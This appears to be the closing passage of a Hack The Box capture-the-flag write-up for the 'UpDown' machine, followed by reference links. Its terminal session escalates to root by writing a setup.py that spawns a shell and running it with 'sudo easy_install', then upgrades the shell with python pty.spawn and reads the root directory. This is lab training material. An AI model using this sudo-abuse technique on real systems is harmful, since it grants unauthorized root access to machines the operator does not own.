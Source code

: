     developer@updown:/tmp/test$ TF=$(mktemp -d)
    developer@updown:/tmp/test$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
    developer@updown:/tmp/test$ sudo easy_install $TF
    WARNING: The easy_install command is deprecated and will be removed in a future version.
    Processing tmp.6bPxETrQln
    Writing /tmp/tmp.6bPxETrQln/setup.cfg
    Running setup.py -q bdist_egg --dist-dir /tmp/tmp.6bPxETrQln/egg-dist-tmp-BR_IVl
    # which python
    /usr/bin/python
    # python -c "import pty; pty.spawn('/bin/bash')"
    root@updown:/tmp/tmp.6bPxETrQln# whoami
    root
    root@updown:/tmp/tmp.6bPxETrQln# id
    uid=0(root) gid=0(root) groups=0(root)
    root@updown:/tmp/tmp.6bPxETrQln# cd /
    root@updown:/# cd root
    root@updown:~# dir
    root.txt  snap
    ```

## Reference 

[UpDown-HTB](https://app.hackthebox.com/machines/493)

[UpDown](https://0xdf.gitlab.io/2023/01/21/htb-updown.html#interacting-with-devsiteisuphtb)

[HTB: UpDown](https://ir0nstone.gitbook.io/hackthebox/linux/medium/updown)

[proc_open](https://www.php.net/manual/zh/function.proc-open.php)